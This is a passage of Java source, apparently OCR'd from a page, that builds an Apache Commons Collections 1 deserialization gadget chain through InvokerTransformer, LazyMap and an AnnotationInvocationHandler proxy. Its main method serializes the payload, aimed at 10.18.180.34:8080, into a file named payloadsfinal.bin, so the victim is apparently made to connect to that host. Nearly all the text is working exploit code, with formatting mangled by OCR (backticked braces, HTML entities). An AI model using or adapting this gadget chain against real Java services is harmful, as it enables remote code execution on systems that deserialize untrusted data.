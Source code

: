 ```
new Object[] `{` new Class[] `{` String.class `}` `}`),
// invoke
new InvokerTransformer("newInstance",
new Class[] `{` Object[].class `}`,
new Object[] `{` new String[] `{` ip `}` `}`),
new ConstantTransformer(1) `}`;
final Map innerMap = new HashMap();
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
//this will generate a AnnotationInvocationHandler(Override.class,lazymap) invocationhandler
InvocationHandler invo = (InvocationHandler) getFirstCtor(
"sun.reflect.annotation.AnnotationInvocationHandler")
.newInstance(Retention.class, lazyMap);
//generate object which implements specifiy interface 
final Map mapProxy = Map.class.cast(Proxy.newProxyInstance(this
.getClass().getClassLoader(), new Class[] `{` Map.class `}`, invo));
final InvocationHandler handler = (InvocationHandler) getFirstCtor(
"sun.reflect.annotation.AnnotationInvocationHandler")
.newInstance(Retention.class, mapProxy);
setFieldValue(transformerChain, "iTransformers", transformers);
return handler;
`}`
public static Constructor&lt;?&gt; getFirstCtor(final String name)
throws Exception `{`
final Constructor&lt;?&gt; ctor = Class.forName(name)
.getDeclaredConstructors()[0];
ctor.setAccessible(true);
return ctor;
`}`
public static Field getField(final Class&lt;?&gt; clazz, final String fieldName)
throws Exception `{`
Field field = clazz.getDeclaredField(fieldName);
if (field == null &amp;&amp; clazz.getSuperclass() != null) `{`
field = getField(clazz.getSuperclass(), fieldName);
`}`
field.setAccessible(true);
return field;
`}`
public static void setFieldValue(final Object obj, final String fieldName,
final Object value) throws Exception `{`
final Field field = getField(obj.getClass(), fieldName);
field.set(obj, value);
`}`
public static void main(final String[] args) throws Exception `{`
final Object objBefore = CommonsCollections1.class.newInstance()
.getObject("10.18.180.34:8080");
//deserialize(serialize(objBefore));
File f = new File("/Users/iswin/Downloads/payloadsfinal.bin");
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
out.writeObject(objBefore);
out.flush();
out.close();
`}`
`}`
```
